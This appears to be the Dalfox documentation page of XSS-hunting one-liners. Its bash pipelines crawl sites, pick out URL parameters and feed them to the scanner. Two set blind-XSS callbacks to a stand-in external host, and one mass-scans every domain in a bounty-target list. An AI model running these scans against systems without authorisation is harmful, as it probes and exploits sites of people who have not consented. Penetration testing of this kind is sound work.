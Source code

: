 ```yaml
---
title: One-Liner
redirect_from: /docs/tips/oneliner/
nav_order: 2
toc: true
layout: page
---
```


> A fast, powerful, one-line

* Scanning XSS from host / from [@cihanmehmet in awesome-oneliner-bugbounty](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```
* [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
* [Find XSS and Blind XSS, and send every request to burpsuite for more manual testing
](https://twitter.com/Alra3ees/status/1407058456323014659)
```bash
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b 'YOURS.xss.ht' --follow-redirects --proxy http://127.0.0.1:8080
```
* [dalfox scan to bugbounty targets / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#dalfox-scan-to-bugbounty-targets-1)
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
```
* [Recon subdomains and gau to search vuls DalFox / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#recon-subdomains-and-gau-to-search-vuls-dalfox)
```bash
assetfinder testphp.vulnweb.com | gau |  dalfox pipe
```
